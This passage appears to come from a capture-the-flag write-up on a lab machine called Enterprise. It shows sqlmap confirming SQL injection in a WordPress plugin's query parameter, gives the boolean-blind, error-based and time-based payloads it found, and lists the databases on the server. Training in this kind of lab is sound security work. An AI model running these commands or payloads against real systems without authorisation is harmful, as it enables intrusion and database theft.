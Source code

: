 ### SQL Injection

#### sqlmap

This is a rather complicated SQL injection, so I’ll let `sqlmap` do the heavy lifting:

```

oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch
...[snip]...
GET parameter 'query' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 297 HTTP(s) requests:
---
Parameter: query (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: query=(SELECT (CASE WHEN (3821=3821) THEN 1 ELSE (SELECT 3759 UNION SELECT 4044) END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: query=1 AND (SELECT 7485 FROM(SELECT COUNT(*),CONCAT(0x716a717871,(SELECT (ELT(7485=7485,1))),0x71627a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: query=1 AND (SELECT 4649 FROM (SELECT(SLEEP(5)))bNLz)
---
[14:10:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8 (jessie)
web application technology: PHP 5.6.31, Apache 2.4.10
back-end DBMS: MySQL >= 5.0
[14:10:55] [INFO] fetched data logged to text files under '/home/oxdf/.local/share/sqlmap/output/enterprise.htb'

```

It finds three injections, boolean-based blind, error-based, and time-based blind. Blind injections are always going to be slow, as they basically give one bit character per query. I’ll look at how the injection works in [Beyond Root](#beyond-root---error-based-sqli).

#### DB Enum

Start by listing the databases:

```

oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch --dbs
...[snip]...
available databases [8]:
[*] information_schema
[*] joomla
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
[*] wordpressdb
...[snip]...

```
